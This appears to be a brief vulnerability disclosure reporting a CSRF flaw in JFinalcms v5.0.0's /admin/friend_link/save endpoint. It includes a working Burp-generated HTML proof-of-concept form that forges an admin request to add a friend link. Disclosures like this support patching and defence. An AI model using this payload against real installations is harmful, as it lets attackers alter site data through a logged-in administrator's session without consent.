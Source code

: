 Author：MengYang

target:https://gitee.com/heyewei/JFinalcms

version:v5.0.0

JFinalcms v5.0.0 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /admin/friend_link/save

![图片](https://github.com/cui2shark/cms/assets/52313275/9f5cbaca-0013-4453-8c98-8eb250f8ba98)

create poc

![图片](https://github.com/cui2shark/cms/assets/52313275/02ce7b20-04af-45d9-8096-507426d6fae2)

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:8888/admin/friend_link/save" method="POST">
      <input type="hidden" name="gid" value="" />
      <input type="hidden" name="name" value="cs" />
      <input type="hidden" name="logo" value="" />
      <input type="hidden" name="file" value="" />
      <input type="hidden" name="url" value="cs" />
      <input type="hidden" name="sort" value="1" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

successed

![图片](https://github.com/cui2shark/cms/assets/52313275/c56cb37e-2dc1-4a5a-b966-575fc1436984)
